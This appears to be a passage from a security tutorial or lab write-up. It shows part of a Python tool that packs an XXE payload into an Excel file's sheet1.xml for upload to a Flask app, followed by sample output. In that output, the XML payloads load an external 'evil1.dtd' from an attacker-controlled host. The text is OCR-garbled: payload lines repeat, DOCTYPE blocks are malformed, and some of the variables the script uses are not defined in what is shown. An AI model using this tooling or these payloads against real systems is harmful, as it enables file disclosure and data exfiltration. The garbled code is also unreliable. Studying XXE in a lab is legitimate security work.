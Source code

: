 ```python
            return sys.stdin.read()
        # Otherwise, read this line-by-line until EOF sentinel or OS EOF. (Crtl+Z on windows)
        while True:
            line = sys.stdin.readline()
            if not line:
                break  # OS EOF
            if line.strip() == "EOF":
                break
            buf.append(line)
    except KeyboardInterrupt:
        pass
    content = "".join(buf).strip()
    return content

def main(argv=None):
    p = argparse.ArgumentParser(description="Replace xl/worksheets/sheet1.xml in an .xlsx with your payload (interactive-friendly).")
    p.add_argument("input", nargs="?", type=Path, default=Path("demo.xlsx"), help="Source .xlsx (default: demo.xlsx)")
    args = p.parse_args(argv)

    out = args.input.with_suffix(".xxe.xlsx")

    # 1) Decide payload texts
    if args.input:
        pasted = read_payload_interactive()
        if pasted:
            sheet_text = pasted

    # 2) Write output file with replacement
    replace_sheet(args.input, out, sheet_text.encode("utf-8"))

    print(f"\n[+] Wrote: {out}")
    print(f"[+] Replaced: {SHEET1_PATH}")
    print("[i] Upload this file to your Flask app, then GET /xxe-excel?needle=XXE_CANARY")
    return 0

if __name__ == "__main__":
    sys.exit(main())
```

You would need to have a fresh `.xslx` file as a reference, and your payload ready.

```python
python xxe_pack.py demo.xlsx

---Output---
=== Paste your sheet1.xml payload or payload for any file (end with Ctrl+Z+Enter on Windows or Ctrl+D on macOS/Linux).
=== Or type a single line 'EOF' to finish. Leave empty to use the default payload.

<!DOCTYPE worksheet [
  <!ENTITY % ext SYSTEM "http://192.168.2.129:8000/evil1.dtd">

<!DOCTYPE worksheet [
  <!ENTITY % ext SYSTEM "http://192.168.2.129:8000/evil1.dtd">
<!DOCTYPE worksheet [
  <!ENTITY % ext SYSTEM "http://192.168.2.129:8000/evil1.dtd">
  <!ENTITY % ext SYSTEM "http://192.168.2.129:8000/evil1.dtd">
  %ext;
]>
<worksheet xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main">
  <dimension ref="A1:E20"/>
  %ext;
```